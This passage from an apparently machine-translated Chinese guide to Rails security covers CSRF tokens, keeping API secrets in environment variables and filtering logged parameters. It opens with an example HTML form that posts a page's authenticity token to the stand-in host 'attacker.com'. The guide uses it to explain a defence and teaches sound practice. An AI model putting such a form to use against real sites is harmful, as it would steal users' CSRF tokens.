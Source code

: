 ```
<form method="post" action="//attacker.com/tokens">
  <form method="post" action="/legit_action">
  <input type="hidden" name="authenticity_token" value="thetoken">
</form> 
```

HTML 不允许嵌套`form`标签，因此恶意形式将取代合法形式，同时保留令牌。如果表单被提交，令牌将被发送到恶意网站。这种类型的攻击非常小众和狭隘，但值得了解。

新的 Rails 5 应用程序将`Rails.application.config.action_controller.per_form_csrf_tokens`选项设置为`true`，所以确保在从以前的版本迁移时也添加它。这个设置通常可以在*的 config/initializer/new _ framework _ defaults . Rb*文件中找到。

## 公开私人令牌

您的应用程序可能会使用一些私有令牌来与第三方 API 进行交互，或者启用 OAuth 2 身份验证。重要的是要非常小心地使用这些令牌，永远不要将它们暴露给公众(例如，在公共的 GitHub 存储库中)。最简单的方法是将它们提取到环境变量中，并使用像 [dotenv-rails](https://github.com/bkeepers/dotenv) 这样的宝石。使用 dotenv-rails，您可以创建一个名为*的文件。env* 并从版本控制中忽略它:

*。gitignore〔t1〕*

```
.env 
```

然后将您的令牌放在该文件中:

```
TWITTER_KEY=123
TWITTER_SECRET=456 
```

对于生产环境，这些变量通常在服务器配置文件中设置。对于 Heroku，使用以下命令:

```
$ heroku config:add TWITTER_KEY=123 TWITTER_SECRET=456 
```

在旧版本的 Rails 中，保护 cookies 的秘密令牌被列在*config/initializers/secret _ token . Rb*文件中，但现在不再是这样了。Rails 4 [引入了一个特殊的 *config/secrets.yml* 文件，该文件的生产令牌已经配置为使用 ENV 变量:](https://github.com/rails/rails/pull/13298)

```
production:
  secret_key_base: <%= ENV["SECRET_KEY_BASE"] %> 
```

顺便说一下，*不要忘记*来设置`secret_key_base`环境变量，因为否则任何人都可以篡改 cookies 的内容，这会导致严重的问题。另外，不要为`secret_key_base`设置一个简单的值，而是运行`rails secret`命令并使用生成的值。

## 记录私人数据

Rails 应用程序为您记录所有交互，这是一件好事。不好的一面是，有时私人数据也会被记录下来，任何有权访问服务器的人都可以获得这些数据。所述数据的例子包括用户的密码、卡号、CCV 号码等等。

您可能知道在*config/initializers/filter _ parameter _ logging . Rb*文件中定义了一个`Rails.application.config.filter_parameters`设置。最初看起来是这样的:

```
Rails.application.config.filter_parameters += [:password] 
```
